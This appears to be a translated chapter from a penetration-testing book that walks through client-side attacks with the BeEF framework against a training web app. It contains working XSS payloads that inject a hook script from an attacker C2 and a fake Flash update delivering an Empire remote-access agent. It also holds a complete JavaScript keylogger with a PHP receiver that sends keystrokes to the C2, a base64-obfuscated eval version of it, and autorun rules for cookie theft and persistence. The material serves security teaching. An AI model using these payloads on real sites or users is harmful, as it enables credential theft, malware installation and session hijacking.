如我之前所提到的，一旦我们有了 XSS 漏洞，我们可以构建一个有效载荷来插入一个新的 `script` 标签，该标签会通过 BeEF 有效载荷钩取客户端。在某些情况下，可能需要更多的创意来让 JavaScript 执行我们的代码，但最终目标是插入一个类似以下的有效载荷：

```
<script async src=https://c2.spider.ml/hook.js></script>
```

在常见的情况中，反射点（也叫做**sink**）位于 HTML 标签内部时，我们有几个选择：

+   关闭受影响的 HTML 标签，并打开一个包含我们钩取代码的新 `script` 标签

+   设置一个事件处理程序，当发生事件时（例如，当页面加载或用户点击元素时），下载并执行我们的钩子代码

第一个选项很简单；我们可以用双引号关闭 `value` 属性，并用尖括号关闭 `input` 元素，接着是我们的恶意 `script` 标签：

```
<input type="text" name="qs" id="qs" value="">**<script async src=https://c2.spider.ml/hook.js></script>**<**span id="**">
```

一旦 XSS 有效载荷被反射回来的话，生成的 HTML 代码将悄无声息地下载并执行我们的钩子代码，允许我们访问浏览会话。`async` 关键字将确保钩子代码异步下载，不会拖慢页面加载速度，从而避免让受害者察觉到异常。

尾部未完成的 `<span>` 将确保原始 HTML 代码的其余部分不会出现在页面上，使其看起来更加整洁。

如果我们必须使用事件来执行代码，可以通过在受影响的 HTML 标签中创建一个合适的 `on[event]` 属性来配置事件处理程序。例如，如果我们希望在用户点击受影响元素时执行钩子代码，我们可以利用 `<input>` 标签的 `onclick` 属性，这样就可以执行任意代码：

```
<input type="text" name="qs" id="qs" value="**" onclick="alert(document.cookie)" x="**">
```

上面的示例将弹出一个包含当前 cookie 的警告框，正如我之前所说，这对于概念验证非常有用，但在攻击中并不太实用。

我们可以使用 DOM 和 JavaScript 构建一个全新的 `script` 元素，将其指向我们的钩子代码，并将其附加到页面的 `head` 中。

得益于 JavaScript 的灵活性，实现这一点的方法有千万种，但我们的代码相对简单：

```
var hook = document.createElement('script');
hook.src = 'https://c2.spider.ml/hook.js';
document.head.append(hook);
```

第一行将创建一个空对象，代表一个 `script` 标签。就像我们在 HTML 标签的 `src=` 属性中做的那样，在 JavaScript 中，我们可以将脚本的源指向我们的钩子代码。此时，实际上没有任何代码被下载或执行。我们已创建了一个无害的 DOM 对象。为了使其成为武器化代码，我们可以使用 `append` 函数将其添加到 `document.head` 中，也就是说，我们在页面的 `<head>` 标签中创建了一个 `<script>` 标签。最后一行正是这么做的，浏览器立即并悄无声息地下载并执行钩子代码。

我们的有效载荷大致如下：

```
<input type="text" name="qs" id="qs" value="**" var hook = document.createElement('script');hook.src='https://c2.spider.ml/hook.js**';
**document.head.append(hook);" x="**">
```

再次强调，尾部的 `x="` 属性是为了确保没有 HTML 解析的异常，并且代码能够顺利执行。

另一个常见的 XSS 漏洞源是直接嵌入 JavaScript 代码中，位于页面的某个地方：

```
<script>
  sure = confirm("Hello **[sink]**, are you sure you wish to logout?");
  if (sure) {
    document.location = "/logout";
  }
</script>
```

在前面的示例中，服务器会将一些用户控制的文本反射到 `confirm()` 字符串参数中。为了利用这一点，我们可以重用之前编写的 DOM 操作代码，并将其适配到传递给另一个函数的字符串中。这绝不是实现代码执行的唯一方法，但这是一个开始。

使用 JavaScript，我们可以使用加号操作符连接字符串和其他对象，如下所示：

```
alert("One plus one is " + **prompt("1 + 1 = ")** + "!");
```

`prompt()`函数将返回我们提供的任何字符串值，而`alert()`则会在返回给用户之前连接这些字符串。我们可以用 JavaScript 做很多奇怪的事情，但需要注意的是，执行了`prompt()`函数。如果我们控制了字符串中的连接内容，就能执行任意的 JavaScript 代码。

在前面的代码示例中，我们将不再返回我们的用户名，而是强制应用返回一个字符串连接，这将执行我们的投放器代码：

```
<script>
  sure = confirm("Hello **" + eval("var hook = document.createElement('script');hook.src='xxx.xxx';document.head.append(hook);") + "**, are you sure you wish to logout?");
  if (sure) {
    document.location = "/logout";
  }
</script>
```

我们实际上并不关心连接的最终结果，实际上，`eval`并不会返回任何有意义的显示内容。我们关心的是`eval()`的执行，它将会执行我们的钩子投放器。

眼尖的朋友会注意到，这种注入方式存在一个小问题。如果用户在确认对话框中点击“确定”，`sure`变量将被设置为`true`，页面将跳转离开，从而带走我们的 BeEF 钩子。

为了解决这个问题，我们必须“完成”脚本并控制脚本的执行流程，确保页面停留足够长的时间，以便我们进行攻击的第二阶段。一种合理的方法是关闭`confirm`函数，`eval`我们的代码，并立即将`sure`的值设置为`false`。这样可以确保即使用户点击“确定”，页面也不会跳转，因为下一个`if`条件将始终评估为`false`。

我们需要稍微修改我们的投放器 payload：

```
"); eval("var hook = document.createElement('script');hook.src='https://c2.spider.ml/hook.js';document.head.append(hook);"); sure = false; //
```

结果是有效的代码，它将防止`if`语句评估为`true`并更改文档位置。我们使用双斜杠（`//`）注释掉`confirm()`函数的其余部分，防止 JavaScript 解析错误：

```
<script>
  sure = confirm("Hello **"); eval("var hook = document.createElement('script');hook.src='https://c2.spider.ml/hook.js';document.head.append(hook);"); sure = false;** //, are you sure you wish to logout?");
  if (sure) {
    document.location = "/logout";
  }
</script>
```

如果不小心构造，在函数中间注入 JavaScript 代码可能会出现一些问题。如果我们漏掉关闭标签或破坏了页面的其他部分，HTML 是相对宽容的。但是，有些 JavaScript 引擎将无法解析代码，我们的 payload 将无法执行。

在接下来的 BeEF 场景中，我们将使用以下 XSS 攻击钩取坏人的站点，站点地址为`http://badguys.local`。这是一种更简单的反射型 XSS 攻击，但它应该足以展示 BeEF 的能力：

```
http://badguys.local/cross-site-scripting/form-field?qs="><**script+async+src=https://c2.spider.ml/hook.js**><**/script**><**span+id="**

```

`qs`参数易受反射型 XSS 攻击，我们将用我们的 BeEF 钩子攻击目标。

如果成功，BeEF C2 服务器日志将显示新的被钩取浏览器、IP 地址、浏览器、操作系统以及 XSS payload 执行的域名：

```
[20:21:37][*] New Hooked Browser [id:1, ip:**196.247.56.62**, browser:C-UNKNOWN, os:Windows-7], hooked domain [**badguys.local:80**]
```

现在我们可以开始在受害者的浏览器上执行各种命令（或模块）。

## 社会工程学攻击

目前捕获凭证或执行恶意代码的最简单方法，且将永远是，社会工程学。特别是 XSS 攻击，赋予我们在用户信任的网站上执行代码的优势，大大提高了成功的几率，因为即使是最警觉的用户也会信任他们认知的网页地址。

BeEF 提供了多个社会工程模块，包括但不限于：

+   **假冒通知栏**：通过模仿浏览器通知栏传递恶意软件

+   **假冒 Flash 更新**：传递伪装成 Flash 更新弹窗的恶意软件

+   **精美盗窃**：通过假冒弹窗捕获常见网站的凭证

+   **假冒 LastPass**：通过假冒弹窗捕获 LastPass 凭证

为了展示使用 BeEF 的常见社会工程攻击，我们将利用位于 **社会工程** 类别下 **命令** 中的假冒 Flash 更新模块。这种技术在现实中仍然非常有效，且 BeEF 简化了将可执行有效载荷传递给受害者的过程。

配置非常简单；我们只需要将模块指向我们自己的自定义有效载荷，这将呈现给受害者一个假冒的 Flash 更新文件：


图 9.11：配置假冒 Flash 更新 BeEF 命令

如果我们希望更换 BeEF 服务器上托管的默认图片，也可以指定自定义图片。我们的“假冒 Flash”有效载荷（`FlashUpdate.bat`）是一个简单的批处理脚本，将执行 PowerShell **Empire** 代理恶意软件。我们还在云端运行了一个独立的 Empire C2 服务器，等待代理的连接。

### 注意事项

Empire 是一个出色的 C2 开源软件，可以完全控制 Windows 和 Linux 机器。Windows 代理完全使用 PowerShell 编写，能够控制目标的各个方面。它是一个非常有效的 **远程访问木马** (**RAT**) 。Linux 也通过 Python 代理得到支持。Empire 提供了大量的后渗透模块，并且可以轻松部署在云端。更多信息请参考 [`www.powershellempire.com/`](https://www.powershellempire.com/)。

我们已经将 Empire 代理下载器（`FlashUpdate.bat`）托管在我们的 C2 服务器上，以简化操作。BeEF 假冒 Flash 更新命令将展示给用户一个看起来像是 Flash 更新提示的图像。点击图像的任何地方都会开始下载恶意软件。用户仍然需要执行它，但正如我之前提到的，这仍然是一个非常有效的攻击方法。

点击 **执行**，假冒 Flash 更新命令将弹出假消息到受害者的浏览器中：


图 9.12：假冒 Flash 更新命令执行情况

### 注意事项

将鼠标悬停在图片上会显示我们之前在假冒 Flash 更新命令中配置的链接 `http://c2.spider.ml/FlashUpdate.bat`。

Empire C2 服务器接收到代理连接，给予我们完全控制受害者计算机的权限，而不仅仅是浏览器：

```
(Empire: listeners) > list

[*] Active listeners:

  Name    Module    Host                    Delay/Jitter    KillDate
  ----    ------    ----                    ------------    --------
  http    http      https://c2.spider.ml:   5/0.08443

(Empire: listeners) > [*] Sending POWERSHELL stager (stage 1) to **196.247.56.62**
[*] New agent **XH3U861L** checked in
[+] Initial agent **XH3U861L** from 196.247.56.62 now active
[*] Sending agent (stage 2) to **XH3U861L** at 196.247.56.62
```

我们可以与代理进行交互并执行任意命令（以及许多其他操作）：

```
(Empire: listeners) > agents
(Empire: agents) > interact **XH3U861L**
(Empire: XH3U861L) > **shell whoami**
[...]
BG-CORP52176\ThePlague
..Command execution completed.
```

借助 XSS 攻击的帮助，我们成功地欺骗受害者执行我们的恶意软件，并让我们从浏览器中提升权限，完全控制受害者的计算机。

还有其他社交工程模块可用，而且大多数都有相当高的成功率。

## 键盘记录器

XSS 攻击的一个常见用途是老式的键盘记录器。JavaScript 允许我们非常轻松地捕获按键，而由于我们能够在浏览器中执行任意的 JavaScript 代码，因此也可以设置一个按键记录器。你可以想象，XSS 攻击在登录页面中对攻击者来说是非常有价值的。

BeEF 中没有模块或命令可以启用键盘记录器，因为它默认在核心中已启用！我们可以通过检查 Web 用户界面中 **Current Browser** 标签旁的 **Logs** 标签，或者直接查看 C2 控制台输出，来看到每个已挂钩浏览器输入的按键信息。

要查看 BeEF 键盘记录器的实际运行情况，我们必须使用 `-v`（详细模式）开关启动服务器：


图 9.13：BeEF 在云中以详细模式运行

有大量与 BeEF 初始化相关的输出，可以安全忽略。然而，在受害者的浏览器被挂钩后，用户事件（包括按键和鼠标点击）将发送到 BeEF C2：

```
UI(log/.zombie.json) call: 2.779s - [Mouse Click] x: 543 y:240 > p
UI(log/.zombie.json) call: 7.493s - [Mouse Click] x: 502 y:349 > div#cookie
UI(log/.zombie.json) call: 9.152s - **[User Typed] ad**
UI(log/.zombie.json) call: 10.171s - **[User Typed] ministra**
UI(log/.zombie.json) call: 11.186s - **[User Typed] tor**
UI(log/.zombie.json) call: 17.251s - **[User Typed] Wint**
UI(log/.zombie.json) call: 18.254s - **[User Typed] er2018**

```

我们可以看到看起来像是输入的凭证。由于 BeEF 挂钩定期回传并提交捕获的按键缓冲区，输入的文字会被拆分开来。在大多数情况下，可以非常明显地判断出用户正在输入什么。

内置的键盘记录器相当好，大多数攻击都会从中受益。然而，在某些情况下，可能需要一个更加定制化的键盘记录器。也许我们希望将按键信息发送到其他地方，或者仅仅想记录更多的按键，比如 *Backspace*、*Enter* 和 *Tab*。

使用 BeEF 作为攻击工具之所以可行，是因为 XSS 允许我们在浏览器中执行 JavaScript 代码。我们发送的所有命令其实只是代码片段，执行时就像它们是应用程序的一部分。

正如预期的那样，BeEF 提供了一个命令，我们可以用它在已挂钩的浏览器中执行任何我们想要的 JavaScript。我们的定制键盘记录器并不非常先进，但它允许我们根据未来的需求进行定制。

我们首先要做的是定义一个 `push_url` 变量，这是 C2 服务器的 URL，我们将把捕获到的按键发送到这个服务器。该服务器组件将解码键盘记录器的信息，并将其存储在文本文件中供以后查看：

```
var push_url = "http://c2.spider.ml/log.php?session=";
```

接下来，我们将使用`document.addEventListener()`方法，在页面上任何地方发生`keydown`事件时触发处理函数。此事件表示用户按下了一个键，并让我们有机会以编程方式检查并记录它。按键将被附加到缓冲区变量中，稍后将被发送到`push_url`：

```
var **buffer** = [];
document.addEventListener(**"keydown"**, function(e) {
  key = e.key;
  if (key.length > 1 || key == " ") { **key = "[" + key + "]"** }
  **buffer.push(key)**;
});
```

当此事件触发时，我们会将按下的键存储在缓冲区中，稍后提交到键盘记录服务器。此`keydown`处理函数中的`if`语句将用括号包裹特殊键，以便我们更容易阅读。例如：按键*Enter*、*Space*和*Tab*将分别记录为`[Enter]`、`[Space]`、`[Tab]`。

最后一部分代码每隔几秒（每 2,000 毫秒）执行一次函数，负责将当前的缓冲区提交到定义的`push_url`：

```
window.setInterval(function() {
  if (buffer.length > 0) {
    var data = **encodeURIComponent(btoa(buffer.join('')))**;

    **var img = new Image()**;
    **img.src = push_url + data**;

    buffer = [];
  }
}, **2000**);
```

`window.setInterval()`函数允许我们指定另一个函数，该函数将周期性地执行，与`keydown`处理函数并行运行。当`keydown`处理函数填充缓冲区时，`setInterval()`函数会将其发送到 C2 服务器。

键盘记录器提交过程如下：

1.  使用`.join()`将缓冲区从数组转换为字符串

1.  使用`btoa()`将结果编码为 Base64

1.  使用`encodeURIComponent`对 Base64 值进行 URI 编码，并将结果存储在数据中

1.  创建一个新的`Image()`对象，并将其源设置为`push_url`，同时在末尾附加编码后的数据

创建一个新的`Image()`对象的一个巧妙副作用是，页面上并不会真正创建图像，但一旦定义了源文件（`.src`），浏览器会尝试通过网络获取它，并通过 URL 发送编码后的缓冲区。

完整的客户端键盘记录器代码如下：

```
var push_url = "http://c2.spider.ml/log.php?session=";

var **buffer** = [];
document.addEventListener(**"keydown"**, function(e) {
    key = e.key;
    if (key.length > 1 || key == " ") { **key = "[" + key + "]"** }
    **buffer.push(key)**;
});

window.setInterval(function() {
    if (buffer.length > 0) {
        var data = **encodeURIComponent(btoa(buffer.join('')))**;

        **var img = new Image()**;
        **img.src = push_url + data**;

        buffer = [];
    }
}, **2000**);
```

为了完成这个键盘记录器，我们需要服务器组件来拦截提交的数据，并解码存储已记录的按键。

我们可以写一些 PHP 代码来完成这个任务：

```
root@spider-c2-1:~/keylogger# cat log.php 
<?php
if (isset($_GET["session"])) {
    $keys = **@base64_decode($_GET["session"])**;

    $logfile = **fopen("keys.log", "a+")**;
    **fwrite**($logfile, $keys);

    fclose($logfile);
}
?>
```

第一行是一个`if`语句，它检查是否通过会话的`GET`参数传入了数据。如果有数据，脚本将解码它并存储在`$keys`变量中，稍后使用`fwrite()`函数将其写入磁盘中的`keys.log`文件。

我们可以在`80`端口启动内置的 PHP 服务器，以提供`log.php`文件，让我们的 JavaScript 键盘记录器与之通信：

```
root@spider-c2-1:~/keylogger# php -S 0.0.0.0:80
PHP 7.0.30-0+deb9u1 Development Server started
Listening on http://0.0.0.0:80
Document root is /root/keylogger
Press Ctrl-C to quit.
```

剩下的就是通过 BeEF 将 JavaScript 有效载荷推送到我们的钩取目标，使用**Misc**节点下的 Raw JavaScript 命令：


图 9.14：在被钩取的受害者上执行自定义键盘记录器

一旦用户开始输入，我们可以看到请求进入我们的服务器：

```
root@spider-c2-1:~/keylogger# php -S 0.0.0.0:80
PHP 7.0.30-0+deb9u1 Development Server started
Listening on http://0.0.0.0:80
Document root is /root/keylogger
Press Ctrl-C to quit.
[...]
[] 196.247.56.62:50406 [200]: /log.php?session=**SGlbIF1bU2hpZnRdSm0%3D**
[] 196.247.56.62:50901 [200]: /log.php?session=**W0JhY2tzcGFjZV1pbQ%3D%3D**
[] 196.247.56.62:55025 [200]: /log.php?session=**LFtFbnRlcl1bRW50ZXJd**
[] 196.247.56.62:55657 [200]: /log.php?session=**W1NoaWZ0XVBsZWFz**
[] 196.247.56.62:56558 [200]: /log.php?session=**ZVsgXWZpbmRbIF1hdHRhY2hlZFsgXXQ%3D**
[] 196.247.56.62:61273 [200]: /log.php?session=**aGVbIF1yZXBvcnRzWyBdZnJvbQ%3D%3D**
[] 196.247.56.62:51034 [200]: /log.php?session=**WyBdbGFzdFsgXXF1YXJ0ZXI%3D**
[] 196.247.56.62:60599 [200]: /log.php?session=**Lg%3D%3D**
[...]
```

如果我们查看`keys.log`的内容，可以使用`tail -f`命令查看捕获的按键，以明文形式显示：

```
root@spider-c2-1:~/keylogger# tail -f keys.log

[Tab]administrator[Tab][Shift]Winter2018[Enter][Shift]Hi[ ][Shift]Jm[Backspace]im,[Enter][Enter][Shift]Please[ ]find[ ]attached[ ]the[ ]reports[ ]from[ ]last[ ]quarter.[Enter][Enter]
```

我们的键盘记录器非常有效，应该能在现代浏览器上正常工作。BeEF 的内置事件记录器还有一些其他很不错的功能，如捕获鼠标点击、复制粘贴事件，以及传统的按键记录。攻击中同时使用这两者可能会提高捕获有用数据的机会。

## 持久性

BeEF 具有非常强大的功能，但仅在浏览器被**hook**时才有效。前面举过的例子提到，受害者如果离开页面，就会打断我们对其浏览器的控制。这是 XSS 攻击的一个不幸现实。持久 XSS 更具韧性，只要用户足够频繁地访问感染页面，但这仍然不是理想的解决方案。

BeEF 带有一些模块，试图使 hook 保持持久，延长受害者的在线时间。一种有效的选项是“浏览器内命令”，可以在**持久性**节点下找到：


图 9.15：浏览器内的命令

这个选项没有设置，我们只需要执行，所有事情都会自动处理。

**浏览器内攻击**（**MITB**）类似于更流行的**中间人攻击**（**MITM**）网络层攻击。在 MITM 场景中，受害者的机器被欺骗将数据包路由到恶意机器，从而让攻击者完全控制受害者的网络流量。这可能导致 TLS 降级或剥离、完整性破坏、恶意软件注入等攻击。MITB 攻击的相似之处在于，网络请求被攻击者的代码拦截并代理。

例如，BeEF 的浏览器内攻击模块将拦截通常会让用户离开当前页面的链接点击。它不会让点击操作正常完成，而是会在后台执行以下步骤：

1.  执行异步 JavaScript 请求（XHR）到预期的目标

1.  用目标页面的内容替换当前页面的内容

1.  更新地址栏以反映点击的链接

1.  将“旧”页面添加到浏览历史

我们可以通过查看命令执行历史记录来看到 MITB 攻击的实际操作：


图 9.16：浏览器内的命令结果

对于受害者来说，这一过程是透明的，因为他们请求的页面已成功加载，所有看起来都很正常。不同之处在于，BeEF 从未失去对 hook 的控制，因为该标签页会话并没有因为离开页面而被丢弃。BeEF hook 仍然在运行，这为我们提供了持久的控制。

## 自动化利用

所有这些模块都很棒，但 XSS 攻击通常具有时间敏感性。如果我们成功地让用户执行我们的 BeEF hook，可能没有足够的时间通过用户界面点击并运行任何模块，直到他们关闭页面或浏览到应用程序的其他部分。

幸运的是，BeEF 实现了**自动运行规则引擎**（**ARE**），它做的就是你所期望的：根据操作员定义的一系列规则，自动运行模块。根据启用的规则，每当一个新的浏览器被感染并接收到钩子负载时，选定的模块会自动执行。ARE 的明显应用是提供持久性和提取敏感数据的模块，比如 Cookies，甚至是我们的自定义键盘记录器。

### 注意

更多关于 ARE 的信息可以在[`github.com/beefproject/beef/wiki/Autorun-Rule-Engine`](https://github.com/beefproject/beef/wiki/Autorun-Rule-Engine)找到。

ARE 规则是一个简单的 JSON 文件，包含描述要执行模块的元数据，存储在 BeEF 的`arerules`子目录中。

BeEF 附带了一些示例规则，允许你执行诸如获取 Cookie 或 Ping Sweep 之类的模块，但这些规则默认是关闭的。如果我们希望在受害者被钩住后立即执行它们，我们需要将相应的 JSON 文件放入`arerules/enabled`子目录，并重启 BeEF。

获取 Cookie 的 ARE 规则如下所示：

```
root@spider-c2-1:~/beef# cat **arerules/get_cookie.json** 
{
  "name": "**Get Cookie**",
  "author": "@benichmt1",
  "browser": "ALL",
  "browser_version": "ALL",
  "os": "ALL",
  "os_version": "ALL",
  "modules": [
    {"name": "**get_cookie**",
      "condition": null,
      "**options**": {
      }
    }
  ],
  "execution_order": [0],
  "execution_delay": [0],
  "chain_mode": "sequential"
}
```

规则中有一些元数据，比如`name`和`author`。ARE 规则还可以指定它执行成功所需的任何选项。我们可以定义执行顺序，并添加延迟。规则链模式指的是用来运行模块的方法，但默认的顺序在大多数部署中应该都能正常工作。

### 注意

更多关于链模式和编写 ARE 的信息可以在[`github.com/beefproject/beef/wiki/Autorun-Rule-Engine`](https://github.com/beefproject/beef/wiki/Autorun-Rule-Engine)找到。

在我们的场景中，我们通过反射型 XSS 攻击执行钩子，这意味着一旦用户离开页面，我们可能会永远失去他们。这时，ARE 就派上用场了。我们可以在受害者上线后，自动执行 Man-In-The-Browser 和获取 Cookie 模块，希望在他们离开之前能够保持连接，或者至少获取到会话 Cookie。

Man-In-The-Browser 和获取 Cookie 都有现成的规则在 BeEF 中；我们只需通过将适当的 JSON 文件副本放入`arerules/enabled`子目录来启用它们：

```
root@spider-c2-1:~/beef# cp arerules/man_in_the_browser.json **arerules/enabled/man_in_the_browser.json**
root@spider-c2-1:~/beef# cp arerules/get_cookie.json **arerules/enabled/get_cookie.json**

```

要使 ARE 加载新启用的规则，如果 BeEF 已经在运行，我们需要重启 BeEF：

```
root@spider-c2-1:~/beef# ./beef
[...]
[18:07:19][*] RESTful API key: cefce9633f9436202c1705908d508d31c7072374
[18:07:19][*] HTTP Proxy: http://127.0.0.1:6789
**[18:07:19][*] [ARE] Ruleset (Perform Man-In-The-Browser) parsed and stored successfully.**
**[18:07:19][*] [ARE] Ruleset (Get Cookie) parsed and stored successfully.**
[18:07:19][*] BeEF server started (press control+c to stop)
```

一旦受害者访问被感染的页面，BeEF 将执行 MITB 攻击并提取应用程序的 Cookies。Man-In-The-Browser 模块将在受害者决定继续浏览应用程序时保持钩子活跃。获取 Cookie 模块将在受害者决定完全关闭浏览器时，尽可能地提取会话 Cookie。

如你所料，我们还可以自动运行 Raw Javascript 模块，这将允许我们在钩住的浏览器上线后立即执行任意的 JavaScript。一个不错的候选模块是我们的自定义键盘记录器。

首先，我们需要创建一个规则，指示 BeEF 执行`raw_javascript`模块：

```
root@spider-c2-1:~/beef# cat **arerules/enabled/raw_javascript.json**
{ 
  "name": "Raw JavaScript",
  "author": "wade@bindshell.net",
  "browser": "ALL",
  "browser_version": "ALL",
  "os": "ALL",
  "os_version": "ALL",
  "modules": [
    {"name": "**raw_javascript**",
      "condition": null,
      "options": {
         **"cmd": ""**
      }
    }
  ],
  "execution_order": [0],
  "execution_delay": [0],
  "chain_mode": "sequential"
}
```

我们不想对运行此规则施加任何条件，但我们必须指定一个有效载荷供执行。`raw_javascript`模块有一个选项`cmd`，即要执行的原始 JavaScript 代码。

现在，由于规则是 JSON 格式，我们将对我们的键盘记录器代码进行 Base64 编码，然后将其传递给 Base64 解码器，接着通过`eval()`函数执行。我们不必进行这一步，但为了将键盘记录器代码存储在 JSON 文件中，我们必须使用 JavaScript 压缩器对其进行压缩，并转义代码中的双引号。这个过程有些复杂，因此我们将选择更简单的方式。

我们可以使用类似 CyberChef（或 JavaScript 的`btoa()`函数）快速编码键盘记录器：


图 9.17：CyberChef 对自定义键盘记录器代码进行 Base64 编码

要运行 Base64 编码的键盘记录器代码，我们必须先将其传递给`atob()`，即 JavaScript 的 Base64 解码器，然后再通过`eval()`函数实际执行代码。

原始 JavaScript 命令输入将如下所示：

```
**eval**(**atob**('dmFyIHB1c2hfdXJsID0gImh0dHA6Ly9jMi5zcGlkZXIubWwvbG9nLnBocD9zZXNzaW9uPSI7Cgp2YXIgYnVmZmVyID0gW107CmRvY3VtZW50LmFkZEV2ZW50TGlzdGVuZXIoImtleWRvd24iLCBmdW5jdGlvbihlKSB7CiAgICBrZXkgPSBlLmtleTsKICAgIGlmIChrZXkubGVuZ3RoID4gMSB8fCBrZXkgPT0gIiAiKSB7IGtleSA9ICJbIiArIGtleSArICJdIiB9CiAgICBidWZmZXIucHVzaChrZXkpOwp9KTsKCndpbmRvdy5zZXRJbnRlcnZhbChmdW5jdGlvbigpIHsKICAgIGlmIChidWZmZXIubGVuZ3RoID4gMCkgewogICAgICAgIHZhciBkYXRhID0gZW5jb2RlVVJJQ29tcG9uZW50KGJ0b2EoYnVmZmVyLmpvaW4oJycpKSk7CgogICAgICAgIHZhciBpbWcgPSBuZXcgSW1hZ2UoKTsKICAgICAgICBpbWcuc3JjID0gcHVzaF91cmwgKyBkYXRhOwoKICAgICAgICBidWZmZXIgPSBbXTsKICAgIH0KfSwgMjAwMCk7'));
```

最后，我们可以将这个值添加到我们的原始 JavaScript ARE 规则 JSON 文件中。这个特定模块需要设置`cmd`选项，这里就是我们放置单行代码的位置。

最终规则将如下所示：

```
root@spider-c2-1:~/beef# cat **arerules/enabled/raw_javascript.json**
{ 
  "name": "Raw JavaScript",
  "author": "wade@bindshell.net",
  "browser": "ALL",
  "browser_version": "ALL",
  "os": "ALL",
  "os_version": "ALL",
  "modules": [
    {"name": "**raw_javascript**",
      "condition": null,
      "**options**": {
        "cmd": **"eval(atob('dmFyIHB1c2hfdXJsID0gImh0dHA6Ly9jMi5zcGlkZXIubWwvbG9nLnBocD9zZXNzaW9uPSI7Cgp2YXIgYnVmZmVyID0gW107CmRvY3VtZW50LmFkZEV2ZW50TGlzdGVuZXIoImtleWRvd24iLCBmdW5jdGlvbihlKSB7CiAgICBrZXkgPSBlLmtleTsKICAgIGlmIChrZXkubGVuZ3RoID4gMSB8fCBrZXkgPT0gIiAiKSB7IGtleSA9ICJbIiArIGtleSArICJdIiB9CiAgICBidWZmZXIucHVzaChrZXkpOwp9KTsKCndpbmRvdy5zZXRJbnRlcnZhbChmdW5jdGlvbigpIHsKICAgIGlmIChidWZmZXIubGVuZ3RoID4gMCkgewogICAgICAgIHZhciBkYXRhID0gZW5jb2RlVVJJQ29tcG9uZW50KGJ0b2EoYnVmZmVyLmpvaW4oJycpKSk7CgogICAgICAgIHZhciBpbWcgPSBuZXcgSW1hZ2UoKTsKICAgICAgICBpbWcuc3JjID0gcHVzaF91cmwgKyBkYXRhOwoKICAgICAgICBidWZmZXIgPSBbXTsKICAgIH0KfSwgMjAwMCk7'));"**
      }
    }
  ],
  "execution_order": [0],
  "execution_delay": [0],
  "chain_mode": "sequential"
}
```

每个模块都需要特定的选项才能正常运行。BeEF 是一个开源软件，因此我们可以检查代码以找出这些选项是什么：



图 9.18：BeEF GitHub 源代码

重启 BeEF 将加载我们新的 ARE 规则，并与另外两个预设规则一起使用：

```
root@spider-c2-1:~/beef# ./beef
[...]
[18:07:19][*] RESTful API key: cefce9633f9436202c1705908d508d31c7072374
[18:07:19][*] HTTP Proxy: http://127.0.0.1:6789
[18:07:19][*] [ARE] Ruleset (Perform Man-In-The-Browser) parsed and stored successfully.
[18:07:19][*] [ARE] Ruleset (Get Cookie) parsed and stored successfully.
**[18:07:19][*] [ARE] Ruleset (Raw JavaScript) parsed and stored successfully.**
[18:07:19][*] BeEF server started (press control+c to stop)
```

所有新被钩住的受害者将会泄露他们的 cookies，执行定制的键盘记录器，并通过 MITB 攻击启用持久性。

## 隧道化流量

也许 BeEF 中最酷的功能就是通过被钩住的受害者的浏览器隧道化流量。BeEF 会设置一个本地代理，将网页请求通过 C2 服务器转发并返回给受害者。

在客户端，流量转发是通过 XHR 完成的，因此请求受到 SOP（同源策略）的限制。这实际上将我们限制在被钩住的域名上。虽然这并不理想，但仍然有一些实际应用。

考虑这样一个场景：一个内部管理界面存在 XSS 攻击的漏洞。我们无法直接访问它，因为它位于一个独立的网络段，但我们成功地欺骗了管理员执行我们的钩子有效载荷，现在我们已经控制了他们在 BeEF 中的会话。我们无法读取管理员 Gmail 帐户的内容，但由于 JavaScript 的存在，我们可以浏览管理界面，而且一切正常。更重要的是，由于浏览器会在每个请求中自动携带 cookie，我们将自动以受害者的身份进行身份验证。

隧道化流量很简单；我们只需右击一个被钩住的客户端，选择**用作代理**：


图 9.19：将受害者用作代理

当 BeEF 启动时，它还会在本地主机上运行一个代理服务，如果启用，它将通过被劫持的受害者浏览器来路由流量：

```
root@spider-c2-1:~/beef# ./beef
[...]
[18:07:19][*] RESTful API key: cefce9633f9436202c1705908d508d31c7072374
[18:07:19][*] HTTP Proxy: **http://127.0.0.1:6789**

```

我们可以通过使用`curl`并使用`-x`参数指定默认的 BeEF 代理服务（`127.0.0.1:6789`）来查看此流量代理的实际操作：

```
root@spider-c2-1:~# curl -x 127.0.0.1:6789 http://**badguys.local**
<!DOCTYPE html>
[...]

  <title>**Shiny, Let's Be Bad Guys**: Exploiting and Mitigating the Top 10 Web App Vulnerabilities</title>

[...]
</html>
root@spider-c2-1:~#
```

我们不仅能够浏览`badguys.local`域名，而且还可以从云中的 C2 服务器进行浏览。由于恶意代码在受害者浏览器内运行，攻击者无需担心名称解析和数据包路由问题。

### 注意

请记住，SOP 也适用于隧道化流量。我们可以向任意域名和端口发送请求，但无法读取响应的内容：

```
root@spider-c2-1:~# curl -x 127.0.0.1:6789 **http://example.com**
**ERROR: Cross Domain Request. The request was sent howev**
**er it is impossible to view the response.**
root@spider-c2-1:~#
```

# 总结

在本章中，我们涵盖了大量与客户端攻击相关的信息。我们研究了三种常见的 XSS 类型：反射型、存储型和 DOM 型，以及 CSRF 攻击，并将这些攻击进行了链式结合。我们还介绍了同源策略（SOP）以及它如何影响将第三方内容或攻击代码加载到页面上的行为。

本章展示了内置的 BeEF 键盘记录器，甚至展示了如何创建自己的键盘记录器。通过社会工程学，我们能够欺骗用户执行恶意代码，从而获得反向 Shell 访问客户端计算机的权限。特别是 XSS 中的持久性问题很严重，但通过 MITB 攻击，我们成功地扩展了在客户端的立足点。最后，我们探讨了如何使用 BeEF 的 ARE 来自动化漏洞利用，甚至通过受害者的浏览器隧道化 HTTP 流量。

本章的目的是展示客户端攻击在实际攻击中是如何可行的。尽管我们没有执行本地代码，但 XSS 和 CSRF 攻击可以结合起来对目标造成实质性的损害。在下一章，我们将从攻击用户转向攻击服务器本身，方法是通过 XML。
